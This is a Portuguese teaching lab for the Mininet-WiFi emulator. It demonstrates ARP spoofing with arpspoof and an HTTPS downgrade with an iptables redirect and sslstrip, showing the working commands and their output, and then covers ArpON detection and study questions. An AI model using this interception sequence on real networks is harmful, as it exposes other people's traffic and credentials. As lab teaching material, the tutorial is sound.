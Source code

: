 ************
ARP Spoofing
************
 
ARP Spoofing e Downgrade de Protocolo
-------------

.. Note::

    **Nesta demo você irá aprender como realizar o ataque de ARP Spoofing e também como realizar o downgrade de protocolo:** 

    **Requisitos:** 
    
    - Mininet-WiFi - https://github.com/intrig-unicamp/mininet-wifi
    - dsniff
    - arpon
    - sslstrip
    - curl
    
    **A VM disponível na página do código-fonte do Mininet-WiFi possui todos os requisitos necessários para reprodução deste documento**

Antes de tudo você precisa identificar a topologia de rede que será gerada através do código abaixo:

.. code:: python

    #!/usr/bin/python

    '''@author: Ramon Fontes
       @email: ramon.fontes@imd.ufrn.br'''

    from mininet.log import setLogLevel, info
    from mn_wifi.node import OVSKernelAP
    from mn_wifi.link import wmediumd
    from mn_wifi.cli import CLI
    from mn_wifi.net import Mininet_wifi


    def topology():
        "Create a network."
        net = Mininet_wifi()

        info("*** Creating nodes\n")
        ap1 = net.addAccessPoint('ap1', ssid='new-ssid', mode='g',
                                 channel='1', position='10,10,0',
                                 failMode="standalone")
        sta1 = net.addStation('sta1', position='10,20,0')
        sta2 = net.addStation('sta2', position='10,30,0')

        info("*** Configuring wifi nodes\n")
        net.configureWifiNodes()

        info("*** Starting network\n")
        net.build()
        net.addNAT().configDefault()
        ap1.start([])

        sta2.cmd('echo 1 > /proc/sys/net/ipv4/ip_forward')

        info("*** Running CLI\n")
        CLI(net)

        info("*** Stopping network\n")
        net.stop()


    if __name__ == '__main__':
        setLogLevel('info')
        topology()


Neste tutorial, vamos simular os passos ilustrados na figura de forma a mostrar na prática como ocorre o ataque de ARP Spoofing. Para tanto, vamos considerar executar o script acima. 

Considerando que o nome do arquivo seja `arp.py` você deve executá-lo da seguinte forma:

.. code:: console

    sudo python arp.py
    

Em seguida, faremos uma tentativa de ping a partir de `sta1` para o endereço 8.8.8.8.

.. code:: console

    mininet-wifi> sta1 ping -c1 8.8.8.8

    PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
    64 bytes from 8.8.8.8: icmp_seq=1 ttl=118 time=68.8 ms
    --- 8.8.8.8 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 68.893/68.893/68.893/0.000 ms


Como é possível perceber o ping foi realizado com sucesso. Agora, vamos verificar a tabela ARP de `sta1`. Na tabela deverá constar o endereço IP e também o endereço MAC do gateway padrão de `sta1`.


.. code:: console

    mininet-wifi> sta1 arp -a
    _gateway (10.0.0.3) at 0a:1e:54:0e:66:96 [ether] on sta1-wlan0


Então, vamos simular o ataque de ARP Spoofing e fazer com que `sta1` entenda que o seu gateway na verdade é `sta2`. Primeiro, abra 2 (dois) terminais para `sta2`.

.. code:: console

    mininet-wifi> xterm sta2 sta2


Então, no terminal de `sta2` execute o arpspoof, conforme abaixo.

.. code:: console

    sta2# arpspoof -i sta2-wlan0 -t 10.0.0.1 10.0.0.3


O comando acima induz 10.0.0.1, que é a vítima, a entender que 10.0.0.2, ou seja, `sta2`, representa o endereço do gateway padrão. 

Então, após alguns segundos verificamos novamente a tabela ARP de `sta1`.

.. code:: console

    mininet-wifi> sta1 arp -a
    _gateway (10.0.0.3) at 02:00:00:00:01:00 [ether] on sta1-wlan0
    ? (10.0.0.2) at 02:00:00:00:01:00 [ether] on sta1-wlan0


Aqui, já podemos notar que o endereço MAC do gateway padrão já não é mais o mesmo do identificado anteriormente. 

Agora, realizamos um novo ping de `sta1` para o endereço público 8.8.8.8, ao mesmo tempo em que utilizamos o tcpdump no outro terminal de `sta2` para verificar se `sta2` está recebendo todo tráfego enviado gratuitamente pela vítima.

.. code:: console

    sta2# tcpdump -i sta2-wlan0
    20:30:34.970402 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251,seq 8, length 64
    20:30:34.971552 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 8, length 64
    20:30:35.430387 ARP, Reply _gateway is-at 02:00:00:00:01:00 (oui Unknown), length 28
    20:30:35.972565 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251,seq 9, length 64
    20:30:35.973722 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 9, length 64
    20:30:36.973743 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251, seq 10, length 64
    20:30:36.974884 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 10, length 64


.. code:: console

    mininet-wifi> sta1 ping -c10 8.8.8.8


Após alguns pacotes enviados por `sta1` é possível notar que `sta2` passou a receber os pacotes enviados por `sta1`, pois `sta1` passou a entender que `sta2` seria o verdadeiro gateway padrão. A partir deste momento, `sta2`, o atacante, pode inclusive utilizar de simples ferramentas como `sslstrip` para realizar ataques em cima do protocolo HTTPS (Hyper Text Transfer Protocol Secure) via downgrade de protocolo.


Para interceptar o tráfego não criptografado, é necessário fazer o downgrade da conexão da vítima de HTTPS para HTTP. Isso é possível através do `sslstrip`. Primeiro, é necessário redirecionar o tráfego de saída na porta 80 para 8080 e, em seguida, iniciar o `sslstrip` na porta 8080.

.. code:: console

    mininet-wifi> xterm sta2


Já no terminal aberto de `sta2` digite:

.. code:: console

    sta2# iptables -t nat -p tcp -A PREROUTING --destination-port 80 -j REDIRECT --to-port 8080


E depois:

.. code:: console

    sta2# sslstrip -l 8080

    sslstrip 0.9 by Moxie Marlinspike running...


Na máquina da vítima, use o `curl` para enviar uma solicitação GET para http://globo.com.

.. Note::

   Caso obter algum erro na etapa abaixo, tente realizar um ping para globo.com a partir de sta1. Se não houver êxito no ping adicione entrada de servidor DNS em /etc/resolv.conf também a partir de sta1.


.. code:: console

    mininet-wifi> sta1 curl -vvv http://globo.com
    *   Trying 186.192.90.12:80...
    * TCP_NODELAY set
    * Connected to globo.com (186.192.90.12) port 80 (#0)
    > GET / HTTP/1.1
    > Host: globo.com
    > User-Agent: curl/7.68.0
    > Accept: */*
    > 
    * Mark bundle as not supporting multiuse
    < HTTP/1.1 301 Moved Permanently
    < Date: Wed, 03 Mar 2021 00:03:21 GMT
    < Content-Type: text/html
    < Content-Length: 178
    < Connection: keep-alive
    < Cache-Control: max-age=600
    < Location: http://www.globo.com/
    < 
    <html>
    <head><title>301 Moved Permanently</title></head>
    <body bgcolor="white">
    <center><h1>301 Moved Permanently</h1></center>
    <hr><center>nginx</center>
    </body>
    </html>
    * Connection #0 to host globo.com left intact
    

Como é possível notar, a solicitação foi redirecionada para http://www.globo.com/. Outro GET nesta nova URL irá retornar o conteúdo da página não criptografado. Experimente utilizar o navegador a partir da vítima para uma experiência mais realista.

O ataque agora está completo: podemos visualizar o tráfego não criptografado entre a vítima e o site vulnerável usando HTTPS. No diretório onde você executou o sslstrip você também poderá observar um arquivo chamado de sslstrip.log. Este arquivo possui todas as informações capturadas pelo sslstrip.


.. admonition:: Perguntas
    
    - Q1. Comente sobre o ataque de downgrade de protocolo. Diga  como ele funciona.
    - Q2. O que seria o HTTP Strict Transport Security (HSTS) e como ele seria útil no cenário prático realizado acima?
    - Q3. Anexe duas imagens do wireshark onde, do lado do atacante, mostre requisições de tráfego criptografado e também requisições de tráfego descriptografadas.


Como evitar o ARP Spoofing
-------------

O ataque de ARP Spoofing pode ser evitado com o uso de ferramentas como ARP handler inspection (ArpON). Por exemplo, você pode executar o ArpON a partir de `sta1`, conforme abaixo:

.. code:: console

    mininet-wifi> xterm sta1
    arpon -D -i sta1-wlan0


Caso houver um ataque em execução será possível observá-lo após executar o arpon, conforme ilustrado abaixo:


.. code:: console

    arpon -D -i sta1-wlan0
    Oct 30 10:01:41 [INFO] Start DARPI on sta1-wlan0
    Oct 30 10:01:41 [INFO] CLEAN, 10.0.0.3 was at 52:1e:e8:62:58:11 on sta1-wlan0
    Oct 30 10:01:53 [INFO] DENY, 10.0.0.3 was at 2:0:0:0:1:0 on sta1-wlan0
    Oct 30 10:01:53 [INFO] ALLOW, 10.0.0.3 is at 52:1e:e8:62:58:11 on sta1-wlan0
    Oct 30 10:01:55 [INFO] DENY, 10.0.0.3 was at 2:0:0:0:1:0 on sta1-wlan0
